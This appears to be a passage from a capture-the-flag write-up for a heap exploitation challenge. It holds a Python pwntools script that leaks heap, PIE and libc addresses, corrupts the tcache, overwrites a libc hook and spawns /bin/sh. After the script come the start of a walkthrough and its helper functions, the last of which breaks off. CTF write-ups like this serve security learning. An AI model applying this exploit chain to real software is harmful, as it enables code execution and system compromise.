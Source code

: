 ```py

    sice(7)

    sice(9) # tcache

    leaks = view(11,'a').strip()
    print(leaks.split(b'0x'))
    heap_base = (int(b'0x' + leaks.split(b'0x')[8],0)&0xfffffffffffff000) - 0x2000
    pie_base = int(b'0x' + leaks.split(b'0x')[5],0) - 0x11b0
    libc_base = int(b'0x' + leaks.split(b'0x')[15],0) - 0x270b3
    print(f'Heap base: {hex(heap_base)}')
    print(f'Pie leak: {hex(pie_base)}')
    print(f'Libc base: {hex(libc_base)}')

    alloc(0, 0x500, 'hk')
    alloc(2, 0x500, 'hk')

    sice(0)
    sice(2)

    alloc(4, 0x2000, b'A'*0x508 + p64(0x111))

    sice(2)
    sice(0)

    alloc(6, 0x2000, b'A'*0x508 + p64(0x111) + p64(pie_base + 0x4060))
    alloc(8, 0x100, b'A')

    alloc(10, 0x100, p64(heap_base + 0x10) + p64(0)*11 + p64(heap_base + 0x400))

    sice(0)

    alloc(1, 0x280, b'\1'*0x80 + p64(libc_base + 0x1eeb20))

    alloc(2, 0x16, b'/bin/sh\0'+p64(libc_base + 0x55410))
    sice(2)
    p.interactive()
```

Lets walk through, step by step.

Firstly we have a set of helper functions:

```py
# muh debugging
def attach_stop(p):
    gdb.attach(p)
    raw_input()

# allocate a chunk
def alloc(idx,size,data):
    p.sendlineafter('> ','1')
    p.sendlineafter('> ',str(idx))
    p.sendlineafter('> ',str(size))
    p.sendafter('Memory> ',data)

# free a chunk
def sice(idx):
    p.sendlineafter('> ','2')
    p.sendlineafter('> ', str(idx))

# view a chunk - this also wipes out half of our `chunks` array
def view(idx,kek):
    p.sendlineafter('> ','3')
```